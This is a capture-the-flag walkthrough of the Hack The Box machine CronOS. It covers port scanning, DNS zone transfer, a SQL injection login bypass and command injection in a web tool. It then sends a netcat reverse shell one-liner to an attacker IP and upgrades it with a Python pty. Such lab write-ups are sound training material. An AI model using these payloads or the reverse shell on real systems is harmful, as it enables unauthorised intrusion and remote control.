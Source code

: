 # hacking cronos - htb

CronOS is a fun linux box on [htb](https://www.hackthebox.com/) which lets us practice enumeration on a linux machine and learn more about exploiting misconfigured scheduled tasks :hourglass_flowing_sand: - aka cronjobs.

## port scanning

As usual, we start with an nmap scan of the target machine.

```bash
ports13=$(sudo nmap -n -Pn -p- --min-rate=250 -sS --open 10.10.10.13 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

echo $ports13 > p13.txt

cat p13.txt
```

We find that ports 22, 53 and 80 are open.

![nmap1](./images/1.png)

Seeing port 53 over tcp is interesting since port 53 over udp is used to make dns inquiries and udp is the normal protocol used for dns.

dns uses tcp port 53 for zone transfers and it is always useful to enumerate dns to widen attack surfaces - for example find subdomains to attack.

> [!TIP]
> Seeing DNS using TCP port 53 suggests that we might be able to perform a zone transfer

We use nmap to perform a more thorough scan of the open tcp ports.

```bash
sudo nmap -Pn -p$ports13 -sV -A -oA ports13 10.10.10.13
```

![nmap2](./images/2.png)

We could just jump right in and attempt a zone transfer, but we can try to manually enumerate dns first. Our intention is to manually find subdomains.

## manual dns enumeration

I started by trying a *reverse dns lookup* using the dig tool. When it comes to dns records, some will have a *PTR* record which is where the *reverse dns request* looks.

The PTR record just maps an ipv4 address to a domain name so we can find the domain name by specifying the ipv4 address. This is the opposite of how dns requests are usually made - usually a domain is specified and the ipv4 address is returned from the A record.

In the following command, the @ symbol lets us specify the ip address of the dns server we want to use - in this case it is the targetted machine itself. The -x flag indicates that we want to run a *reverse* lookup for the specified ip address.

```bash
sudo dig @10.10.10.13 -x 10.10.10.13 +nocookie
```

![dns1](./images/3.png)

The next step was to brute-force possible subdomains using a shell script. We can do this as in this example - whereby we use strings and try them as subdomain names - or we can do it using ip addresses along with reverse lookups. I did not try this technique on this box as I got an interesting result using the first method.

```bash
for name in $(cat /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt); do host $name.cronos.htb 10.10.10.13 -W 2; done | grep 'has address'
```

![dns2](./images/4.png)

As can be seen, we find a subdomain called *admin* which immediately gets our attention!

I was impatient to have a look at the admin subdomain - for obvious reasons - so I terminated the script early and tried a zone transfer to see if it would be possible and if so if I had missed anything.

We find that we can perform a zone transfer, but we find nothing new - our manual enumeration found all that it needed to.

```bash
sudo dig @10.10.10.13 -t AXFR cronos.htb +nocookie
```

> [!NOTE]
> In the picture my first command forgot to specify the DNS server - the above command (should!) work

![dns3](./images/5.png)

Okay - it's time to have a look at that admin subdomain :smiley:

## authentication bypass

![sqli1](./images/6.png)

Seeing a login form, I immediately thought about trying a sqli to bypass authentication. Before trying this, I did try a few generic credentials such as *admin:admin*

> [!TIP]
> It is always worth trying generic credentials or researching default ones for the target service

The generic creds did not work, so I fired up burpsuite to start testing the form for sqli vulnerabilities.

I started by trying a simple authentication bypass on the password field - this did not work so I tried again but on the username field - this was successful.

> [!IMPORTANT]
> Test *every* input field for sqli and xss vulns

`username=admin'+or+1=1+--+-`

The sqli attack works and we then just need to follow the redirection to land at a welcome.php page.

![sqli2](./images/7.png)

![sqli3](./images/8.png)

The welcome.php page is interesting, too :thinking:

## command injection and a reverse shell

The welcome page shows a tool which appears to execute commands on the system - *command injection* seems a very likely next step.

Using the *repeater* tool in burpsuite we find that when we add `;` after the *host* parameter we can follow it with system commands which get executed :smile:

`host=8.8.8.8;whoami`

![ci1](./images/9.png)

This is a simple *command injection* vulnerability and we can now try to find a way to exploit it - getting a reverse shell to work would be nice :thumbsup:

I found a netcat reverse shell worked.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

I used this command in the repeater tool and *url encoded* it by highlighting it and then pressing `CTRL + U` before sending it.

> [!NOTE]
> Remember to start a netcat listener on your attacking machine before you send the above command `sudo nc -nlvp 4444` :roll_eyes:

![ci2](./images/10.png)

The shell we get is (unsurprisingly) running under the *www-data* user which has low privileges.

![ci3](./images/11.png)

Before continuing, it makes sense to upgrade our shell. There are different ways to do this, but if *python* is installed on the victim system then we can use it to upgrade.

```bash
python --version

python -c 'import pty;pty.spawn("/bin/bash");'
```

Now we have a (slightly) more stable shell, it is time to get enumerating the box :detective: so we can find ways to elevate our privileges :arrow_up:

